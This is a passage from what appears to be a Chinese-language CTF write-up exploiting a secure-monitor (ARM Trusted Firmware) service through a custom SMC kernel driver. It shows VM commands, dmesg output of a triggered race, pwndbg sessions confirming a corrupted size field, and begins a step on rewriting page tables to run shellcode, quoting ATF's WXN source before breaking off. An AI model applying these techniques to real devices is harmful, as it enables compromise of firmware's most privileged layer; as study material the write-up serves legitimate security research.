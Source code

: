 ```c
```

虚拟机：

```bash
# mkdir /mnt/shared && mount -t 9p -o trans=virtio hostshare /mnt/shared
# insmod /mnt/shared/smc_driver.ko
# cat /dev/step1_driver
cat: read error: Invalid argument
# dmesg
...
[   16.796970] smc_driver: loading out-of-tree module taints kernel.
[   16.802926] SMC Driver: Initializing the driver
[   16.804485] SMC Driver: Device created successfully
[   25.819992] Step1: Device opened
[   25.830324] SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x423dc008
[   25.850199] func2 is running on CPU 2
[   25.853743] func1 is running on CPU 1
[   25.856088] Condition successed!
[   25.875623] Step1: Device closed
```

调试：

```bash
pwndbg> target remote :1234
pwndbg> b *0xE0A5D8C
pwndbg> c
Continuing.
[Switching to Thread 1.2]

Thread 2 hit Breakpoint 1, 0x000000000e0a5d8c in ?? ()
...
pwndbg> x /32xg 0xE0D70B0
0xe0d70b0:	0x6f6f7420657a6973	0x0000000a67696220 # 此时max_size已被修改
0xe0d70c0:	0x0000000000000000	0x0000000000000004
```



## Step2: 修改页表，执行shellcode

参考[Double Mapping the Secure Monitor](https://blog.impalabs.com/2212_advisory_huawei-secure-monitor.html#double-mapping-the-secure-monitor)和ATF源码了解到存在**WXN机制**，**始终将读写的普通内存映射为从不执行**，只有只读内存依靠`MT_EXECUTE/MT_EXECUTE_NEVER`属性来确定XN位的值。也就是说只要`MT_RW`被置位则不论`MT_EXECUTE_NEVER`有没有被置位都不可执行。相关源码如下：

```c
// lib\xlat_tables\xlat_tables_common.c
static uint64_t mmap_desc(unsigned int attr, unsigned long long addr_pa,
			  unsigned int level)
{
    ...
  mem_type = MT_TYPE(attr);
	if (mem_type == MT_DEVICE) {
    ...
  else {
    ...
    /*
		 * Always map read-write normal memory as execute-never.
		 * This library assumes that it is used by software that does
		 * not self-modify its code, therefore R/W memory is reserved
		 * for data storage, which must not be executable.
		 *
		 * Note that setting the XN bit here is for consistency only.
		 * The function that enables the MMU sets the SCTLR_ELx.WXN bit,
		 * which makes any writable memory region to be treated as
		 * execute-never, regardless of the value of the XN bit in the
```